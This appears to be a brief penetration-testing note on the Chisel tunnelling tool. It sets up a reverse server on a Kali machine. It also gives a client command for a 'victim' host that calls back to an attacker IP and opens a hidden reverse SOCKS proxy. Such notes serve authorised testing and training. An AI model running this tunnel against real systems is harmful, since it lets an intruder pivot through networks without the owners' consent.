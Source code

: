 ### Chisel

Client/server model
chisel server on kali, chisel client on victim

chisel server --port 8080 --reverse
```
/tmp/chisel client 192.168.45.238:8080 R:socks > /dev/null 2>&1 &
```